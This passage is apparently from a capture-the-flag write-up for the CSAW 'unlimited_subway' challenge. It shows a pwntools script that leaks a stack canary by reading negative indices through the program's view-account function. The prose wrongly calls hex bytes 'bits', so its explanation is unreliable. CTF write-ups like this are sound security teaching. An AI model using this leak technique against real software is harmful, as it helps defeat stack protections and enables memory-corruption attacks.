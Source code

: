 Let's start by leaking the stack canary. We can do this by using negative indexing to read from the stack. We can use the `view_account()` function to do this.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./unlimited_subway_patched", checksec=True)

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.csaw.io", 7900)

    return r

def main():
    r = conn()

    canary = ""
    for i in range(1, 5):
        r.sendline("V")
        r.recvuntil("Index : ")
        r.sendline(str(-i))
        result = r.recvline().strip().decode()
        bits = result.split(": ")[1]
        canary += bits
        if i < 4:
            r.recvuntil("> ")

    full_canary = "0x" + canary[:8]  # Initial 8 bits
    print("Initial 8 bits:", full_canary)

    # Continue with more potential canaries from -5 to -200
    num = 0
    for i in range(5, 201):
        r.sendline("V")
        r.recvuntil("Index : ")
        r.sendline(str(-i))
        result = r.recvline().strip().decode()
        bits = result.split(": ")[1]
        canary += bits

        if i % 4 == 0:
            full_canary = "0x" + canary[(i // 4 - 1) * 8:i // 4 * 8]  # get 4 sets of 2 bits
            num += 1
            print(f"[{num}] Potential Canary:", full_canary)

    r.close()

if __name__ == "__main__":
    main()
```
We can see that we use the `view_account()` function to read the canary 2 bits at a time. We can see that we get the first 8 bits of the canary and then we get 2 bits at a time until we get 200 bits. Which gives us 50 potential canaries. 
